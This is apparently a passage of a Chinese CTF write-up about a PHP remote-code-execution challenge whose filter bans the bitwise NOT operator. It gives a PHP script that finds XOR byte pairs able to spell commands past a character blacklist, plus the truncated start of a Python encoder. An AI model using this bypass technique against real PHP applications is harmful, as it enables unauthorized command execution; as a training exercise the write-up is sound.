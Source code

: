 这题ban掉了取反，只能用其他位运算符构造payload

羽师傅的异或脚本

```php
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i'; //根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);

```

```python
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
```